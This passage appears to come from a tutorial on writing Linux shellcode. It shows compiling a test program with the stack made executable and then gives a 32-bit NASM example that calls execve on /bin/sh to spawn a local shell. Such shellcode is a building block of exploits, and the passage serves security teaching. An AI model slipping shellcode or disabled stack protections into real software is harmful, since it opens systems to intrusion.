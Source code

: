 Now, compile and run:
```bash
gcc -z execstack -m32 -o run run.c
./run
echo $?
```

![example1 shellcode](./images/12/2021-10-11_11-01.png){width="80%"}    

> `-z execstack` Turn off the NX protection to make the stack executable

Our program returned 0 instead of 1, so our shellcode worked.     

### example2. spawning a linux shell.

Let's go to writing a simple shellcode that spawns a shell (`example2.asm`):       
```nasm
; example2.asm - spawn a linux shell.
; author @cocomelonc
; nasm -f elf32 -o example2.o example2.asm
; ld -m elf_i386 -o example2 example2.o && ./example2
; 32-bit linux

section .data
  msg: db '/bin/sh'

section .bss

section .text
  global _start   ; must be declared for linker

_start:           ; linker entry point

  ; xoring anything with itself clears itself:
  xor eax, eax    ; zero out eax
  xor ebx, ebx    ; zero out ebx
  xor ecx, ecx    ; zero out ecx
  xor edx, edx    ; zero out edx

  mov al, 0xb     ; mov eax, 11: execve
  mov ebx, msg    ; load the string pointer to ebx
  int 0x80        ; syscall

  ; normal exit
  mov al, 1       ; sys_exit system call 
                  ; (mov eax, 1) with remove 
                  ; null bytes
  xor ebx, ebx    ; no errors (mov ebx, 0)
  int 0x80        ; call sys_exit
```
